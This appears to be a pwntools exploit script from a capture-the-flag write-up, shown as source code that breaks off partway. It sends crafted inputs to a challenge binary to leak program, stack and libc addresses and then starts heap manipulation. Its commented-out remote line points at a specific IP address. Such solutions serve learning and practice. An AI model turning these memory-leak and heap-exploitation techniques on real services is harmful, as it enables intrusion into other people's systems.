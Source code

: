 ```py=
elf = context.binary = ELF('chall')
libc = ELF('./glibc/libc.so.6')

def int_from_bytes(bytes):
    return int.from_bytes(bytes, byteorder='little')
def req1(data):
    sl(p32(1) + data)
def req2(size, type, data):
    sl(p32(2) + p32(type) + data)
def req3(size, data):
    sl(p32(3) + p32(size) + data)

def GDB(proc):
    gdb.attach(p, gdbscript='''
               b *((void*)&stdout - 0x3bf2)
               b *((void*)&stdout - 0x3c3e) # option '.'
               b *((void*)&stdout - 0x406b) # read routine2
               b *((void*)&stdout - 0x2e82) # read routine3
             b *((void*)&stdout - 0x2ea1) # read size routine3
            b *((void*)&stdout - 0x3f72) # decode base64
            b *((void*)&stdout - 0x3fe0) # routine2
            b *((void*)&stdout - 0x43b9) # decode
            b *((void*)&stdout - 0x42ae) # malloc1
            b *((void*)&stdout - 0x4028) # malloc2
               b *((void*)&stdout - 0x455e)
               b *((void*)&stdout - 0x47d4) #decode
               c
               ''')


#context.log_level = 'debug'
p = remote('0', 8888)
#p = remote('103.163.24.78', 2907)

req1(b'<'*0x19 + b'>.'*8)
leak = r(8)
leak = int_from_bytes(leak)
print('leak: ', hex(leak))
elf.address = leak - 0x23fb
print('elf: ', hex(elf.address))

req1(b'<'*0x29 + b'>.'*8)
leak = r(8)
leak = int_from_bytes(leak)
print('leak: ', hex(leak))
stack = leak

req1(b'<'*0x6a + b'>.'*8 + b'+')
leak = r(8)
leak = int_from_bytes(leak)
leak = leak >> 8
print('leak: ', hex(leak))
libc.address = leak - 0x9b156
print('libc: ', hex(libc.address))


req2(0x80 + 4, 1, b'A'*0x80)
for i in range(1): 
    req2(0x20 + 4, 1, b'A'*0x10)
r(0x100)
r(0x100)
req2(0x100, 0, b'YWFhYWFhYWFhYWFhYWFhCg==') # leak heap base
leak = r(8)
```